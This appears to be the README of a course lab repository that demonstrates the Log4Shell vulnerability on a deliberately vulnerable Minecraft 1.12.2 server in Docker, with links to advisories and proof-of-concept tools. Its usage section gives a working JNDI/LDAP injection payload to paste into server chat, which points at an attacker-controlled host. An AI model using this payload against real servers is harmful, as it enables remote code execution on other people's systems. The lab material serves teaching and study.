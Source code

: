 # cpts428-minecraft-log4j
Repository showcasing a log4j exploit on a Minecraft server

## Background

The included minecraft server is version 1.12.2 and is vulnerable to the "Log4Shell" attack.

## Usage

Start servers:
```
docker compose up
```

Run exploit (replace with your IP)
```
${jndi:ldap://localhost:1389/o=reference}
```
(put the above thing in the minecraft server chat)


## References

https://www.minecraft.net/en-us/article/important-message--security-vulnerability-java-edition
https://www.cisa.gov/news-events/news/apache-log4j-vulnerability-guidance
https://www.dynatrace.com/news/blog/what-is-log4shell/
https://bishopfox.com/blog/identify-and-exploit-log4shell
https://github.com/veracode-research/rogue-jndi
https://www.veracode.com/blog/research/exploiting-jndi-injections-java
https://github.com/HyCraftHD/Log4J-RCE-Proof-Of-Concept
